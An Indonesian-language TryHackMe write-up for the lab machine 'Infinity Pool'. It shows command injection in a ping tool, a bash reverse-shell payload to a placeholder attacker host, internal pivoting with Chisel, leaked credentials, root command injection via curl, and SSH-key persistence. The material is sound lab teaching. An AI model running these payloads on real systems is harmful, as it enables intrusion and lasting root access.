# Infinity Pool — TryHackMe Writeup

**Target:** Infinity Pool  
**Platform:** TryHackMe  
**Difficulty:** Medium  
**Kategori:** Web, Command Injection, Internal Pivoting, Authenticated Command Injection

---

## Recon

Langkah pertama adalah melakukan port scanning untuk mengidentifikasi service yang berjalan pada target.

```bash
rustscan -b 2000 --scripts none -a <TARGET_IP>
```

Setelah mengetahui port yang terbuka, dilakukan scan lanjutan menggunakan Nmap untuk memperoleh informasi service secara lebih lengkap.

```bash
nmap -Pn -p22,80 -T4 -sC -sV <TARGET_IP>
```



Hasil scan menunjukkan aplikasi web berjalan menggunakan **Gunicorn** serta terdapat dua endpoint yang disembunyikan melalui `robots.txt`.

```text
http-robots.txt: 2 disallowed entries

/internal/
/status

Server: gunicorn
```

Dari hasil tersebut, fokus diarahkan ke endpoint `/status`.

---

## Initial Access — Command Injection

Endpoint `/status` menampilkan sebuah **Staff Connectivity Tool** dengan fungsi untuk melakukan pengecekan konektivitas ke host tertentu.

Sebagai pengujian awal, saya memasukkan alamat `127.0.0.1` dan aplikasi melakukan proses **ping** sesuai input yang diberikan.



Sebelum mencoba mengeksploitasi fitur tersebut, saya melakukan enumerasi tambahan terhadap aplikasi.

Saat melihat source HTML, ditemukan file JavaScript berikut.

```text
/static/app.js
```

Karena file JavaScript sering kali menyimpan endpoint maupun petunjuk tambahan, dilakukan enumerasi menggunakan **ffuf**.

```bash
ffuf \
-w ~/wordlists/SecLists/Discovery/Web-Content/raft-medium-words.txt \
-u http://<TARGET_IP>/FUZZ \
-e .js
```

Hasil enumerasi tidak menemukan endpoint menarik selain `/status`, sehingga fokus kembali diarahkan pada fitur tersebut.

Karena aplikasi menjalankan utilitas `ping`, langkah berikutnya adalah menguji apakah input pengguna divalidasi dengan benar.

Sebagai pengujian awal dicoba parameter bawaan milik `ping`.

```text
--help
```

Aplikasi meneruskan parameter tersebut secara langsung ke command `ping`, yang menunjukkan bahwa input pengguna tidak difilter.



Selanjutnya dilakukan pengujian menggunakan operator shell `&&`.

```text
-c 1 127.0.0.1 && echo lutz ganteng
```

Payload tersebut memiliki arti:

- Melakukan ping ke localhost sebanyak satu kali.
- Jika berhasil, jalankan command `echo`.

Response aplikasi mengembalikan output dari command `echo`, sehingga dapat dipastikan endpoint tersebut rentan terhadap **Command Injection**.



Karena command injection telah terkonfirmasi, payload kemudian diganti menjadi Bash Reverse Shell.

Listener dijalankan pada mesin attacker.

```bash
nc -lvnp 9004
```

Payload:

```bash
-c 1 127.0.0.1 && bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'
```

Beberapa saat kemudian shell berhasil diterima sebagai user **web**.



---

## Enumerasi Internal

Setelah berhasil mendapatkan reverse shell sebagai user **web**, saya mulai melakukan enumerasi sistem untuk mencari jalur privilege escalation.

Pertama saya menjalankan beberapa command dasar.

```bash
id
hostname
pwd
ss -lntp
ps aux | grep gunicorn
```

Output `ps aux` menunjukkan terdapat tiga service utama yang berjalan menggunakan Gunicorn.

- Edge (public) berjalan sebagai user **web** pada port **80**
- Watchtower berjalan sebagai user **svc-watch** pada port **3000**
- Automation berjalan sebagai user **root** pada port **9000**

Selanjutnya saya melihat service yang sedang listen.

```bash
ss -lntp
```

Terlihat terdapat beberapa service yang hanya melakukan bind pada **127.0.0.1**, yaitu:

- 3000 (Watchtower)
- 8080 (FreePBX UCP)
- 9000 (Automation)

Karena service tersebut hanya listen di localhost, service tersebut tidak dapat diakses langsung dari luar.



Agar seluruh service internal tersebut dapat diakses menggunakan browser, saya melakukan reverse port forwarding menggunakan **Chisel**.

### Attacker

```bash
chisel server --reverse -p 8000
```

### Victim

```bash
./chisel client ATTACKER_IP:8000 \
R:3000:127.0.0.1:3000 \
R:8080:127.0.0.1:8080 \
R:9000:127.0.0.1:9000
```

Setelah tunnel berhasil dibuat, seluruh service internal dapat diakses dari browser attacker.

```
http://127.0.0.1:3000
http://127.0.0.1:8080
http://127.0.0.1:9000
```

---

## Enumerasi Watchtower

Service pertama yang saya analisa adalah **Watchtower** pada port **3000**.

Endpoint `/health` hanya menampilkan status service, tetapi endpoint `/api/config` membocorkan konfigurasi internal.

```http
GET /api/config
```



Response berisi beberapa informasi sensitif.

```json
{
  "telephony_user":"FreePBXUCPTemplateCreator",
  "telephony_pass":"St4yN0t1c3d_2026",
  "telephony_portal":"http://127.0.0.1:8080/ucp"
}
```

Dari endpoint tersebut diperoleh:

- Username FreePBX
- Password FreePBX
- Lokasi portal UCP internal

---

## Login ke FreePBX

Menggunakan credential yang diperoleh sebelumnya, saya berhasil login ke portal UCP.

```
http://127.0.0.1:8080/ucp
```



Setelah login, dashboard masih kosong.



saya membuat dashboard baru kemudian mencoba menambahkan widget satu per satu.



Dari seluruh widget yang tersedia, hanya **Voicemail** yang berisi informasi sensitif.



Voicemail tersebut menyimpan **Automation Key** yang nantinya digunakan sebagai Bearer Token untuk mengakses service Automation.

---

## Enumerasi Service Automation

Sebelum mencoba mengeksploitasi service Automation, saya memastikan bagaimana service tersebut dijalankan.

```bash
cat /etc/systemd/system/cc-automation.service
```



Konfigurasi tersebut menunjukkan bahwa service berjalan sebagai **root**.

```ini
User=root
ExecStart=/var/www/infinity_pool/automation/venv/bin/gunicorn --workers 1 --bind 127.0.0.1:9000 wsgi:app
```

Dengan informasi tersebut, apabila service Automation dapat dieksploitasi, maka command yang dijalankan juga akan dieksekusi sebagai **root**.Setelah memperoleh **Automation Key**, saya mulai berinteraksi dengan endpoint `/jobs/export`.

Request pertama yang saya kirim merupakan request normal untuk melihat bagaimana endpoint bekerja.

```bash
curl \
-X POST \
http://127.0.0.1:9000/jobs/export \
-H "Authorization: Bearer <TOKEN>" \
-H "Content-Type: application/json" \
-d '{"report":"latest"}'
```

Response yang dikembalikan server:

```json
{
  "command":"tar czf /var/automation/exports/latest.tgz /var/automation/data 2>&1",
  "output":"tar: Removing leading `/' from member names"
}
```

Dari output tersebut terlihat bahwa parameter **report** secara langsung dimasukkan ke dalam command `tar`.

Karena input user diproses tanpa sanitasi, terdapat indikasi kuat bahwa endpoint ini rentan terhadap **Command Injection**.

---

## Authenticated Command Injection

Untuk memastikan apakah parameter `report` benar-benar dapat digunakan untuk menjalankan command, saya mencoba melakukan command injection sederhana.

```bash
curl \
-X POST \
http://127.0.0.1:9000/jobs/export \
-H "Authorization: Bearer <TOKEN>" \
-H "Content-Type: application/json" \
-d '{"report":"latest;id #"}'
```

Payload di atas memanfaatkan karakter `;` untuk mengakhiri command `tar`, kemudian menjalankan command `id`.

Karakter `#` digunakan sebagai komentar agar sisa command yang ditambahkan aplikasi tidak ikut dieksekusi.

Response:

```text
uid=0(root)
gid=0(root)
groups=0(root)

tar: Cowardly refusing to create an empty archive
Try 'tar --help' or 'tar --usage' for more information.
```

Output tersebut membuktikan bahwa command berhasil dieksekusi menggunakan privilege **root**.

Dengan kata lain, endpoint `/jobs/export` mengalami **Authenticated Command Injection** yang menghasilkan **Remote Code Execution sebagai root**.

---

## Persistence

Daripada hanya membaca `/root/root.txt`, saya memilih memperoleh akses root yang lebih stabil menggunakan SSH.

Pertama saya membuat pasangan SSH key pada mesin attacker.

```bash
ssh-keygen -t ed25519 -f infinity_root
```

Command tersebut menghasilkan dua file.

```
infinity_root
infinity_root.pub
```

Public key kemudian ditambahkan ke `/root/.ssh/authorized_keys` melalui command injection.

```bash
curl \
-X POST \
http://127.0.0.1:9000/jobs/export \
-H "Authorization: Bearer <TOKEN>" \
-H "Content-Type: application/json" \
-d '{"report":"latest;mkdir -p /root/.ssh && echo '\''<PUBLIC_KEY>'\'' >> /root/.ssh/authorized_keys && chmod 700 /root/.ssh && chmod 600 /root/.ssh/authorized_keys #"}'
```

Setelah payload berhasil dijalankan, saya cukup login menggunakan private key yang sebelumnya dibuat.

```bash
ssh -i infinity_root root@TARGET_IP
```

Berhasil memperoleh shell interaktif sebagai **root** tanpa perlu mengeksploitasi ulang aplikasi.


